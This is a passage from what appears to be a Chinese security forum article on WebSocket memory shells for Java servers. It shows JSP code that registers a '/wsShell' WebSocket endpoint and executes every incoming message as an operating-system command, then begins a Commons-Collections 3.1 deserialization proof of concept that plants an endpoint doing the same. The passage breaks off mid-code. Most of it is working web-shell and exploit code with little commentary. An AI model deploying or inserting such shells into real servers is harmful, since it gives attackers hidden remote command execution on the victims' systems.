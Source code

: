 ```jsp
                        while ((line = reader.readLine()) != null) {
                            output.append(line).append("\n");
                        }
                        int exitCode = process.waitFor();
                        s.getBasicRemote().sendText(output.toString());
                    } catch (Exception e) {
                        e.printStackTrace();
                    }
                }
            });
        }
        @Override
        public void onClose(Session session, CloseReason closeReason) {
            super.onClose(session, closeReason);
        }
    }
%>

<%
    ServerContainer serverContainer = (ServerContainer) request.getServletContext().getAttribute("javax.websocket.server.ServerContainer");
    ServerEndpointConfig c = ServerEndpointConfig.Builder.create(WSEndpointShell.class, "/wsShell").build();
    try {
        serverContainer.addEndpoint(c);
    } catch (DeploymentException e) {
        e.printStackTrace();
    }
%>
</body>
</html>
```

其实跟上面实现WebSocket的代码几乎一样，就是换成了JSP的写法，附一张成功的截图。

![7.png](https://shs3.b.qianxin.com/attack_forum/2023/09/attach-0d291a991fe3626d3748030e206a18a7d9e0f3d7.png)

#### 反序列化实现

然后再来一段使用发序列化打的poc吧，本来想尝试使用javassist去构造一个WebSocket的类，但是由于有泛型，注解等乱七八糟的东西，一直没整出来，所以就换了个比较笨的方式。  
服务端就是接收base64编码后的序列化字符串，解码，然后反序列化，CC的版本为3.1

```java
// 自定的WebSocket
public class SerWebSocket1 extends Endpoint implements MessageHandler.Whole<String> {
    private Session session;

    @Override
    public void onOpen(Session session, EndpointConfig config) {
        this.session = session;
        session.addMessageHandler(this);
    }

    @Override
    public void onMessage(String message) {
        try {
            Process process = Runtime.getRuntime().exec((String) message);
            BufferedReader reader = new BufferedReader(new InputStreamReader(process.getInputStream()));
            StringBuilder output = new StringBuilder();
            String line;
            while ((line = reader.readLine()) != null) {
                output.append(line).append("\n");
            }
```